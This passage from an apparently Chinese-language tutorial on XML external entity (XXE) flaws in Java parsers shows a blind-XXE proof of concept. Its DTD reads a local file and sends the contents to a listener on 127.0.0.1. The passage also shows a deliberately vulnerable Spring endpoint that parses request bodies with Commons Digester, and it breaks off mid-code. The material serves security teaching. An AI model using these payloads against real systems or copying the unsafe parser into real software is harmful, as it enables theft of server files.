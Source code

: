 

Poc:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
        <!ENTITY % remote SYSTEM "http://127.0.0.1:8080/bypass.dtd">
        %remote;
        ]>
<message>
    <to>Kobe</to>
    <from>James</from>
    <text>&internal;</text>
</message>
```

```xml
<!ENTITY % file SYSTEM "file:///e://1.txt">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8080/?%file;'>">
%all;
```







#### 5.Digester

其触发的xxe漏洞是没有回显的，我们一般需要通过Blind XXE的方法来利用



引入依赖：

```xml
<dependency>
    <groupId>commons-digester</groupId>
    <artifactId>commons-digester</artifactId>
    <version>2.1</version>
</dependency>
```

```java
package com.example.xxedemo;

import org.apache.commons.digester.Digester;
import org.dom4j.io.SAXReader;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.xml.sax.InputSource;

import javax.servlet.http.HttpServletRequest;
import java.io.InputStream;
import java.io.StringReader;

@RestController
public class DigesterTest {

    @RequestMapping("/digesterdemo/vul")
    public String digesterDemo(HttpServletRequest request) {
        try {
            //获取输入流
            InputStream in = request.getInputStream();
            String body =  convertStreamToString(in);

            Digester digester = new Digester();
            digester.parse(new StringReader(body));
            return "Digester XXE......";
        } catch (Exception e) {
```
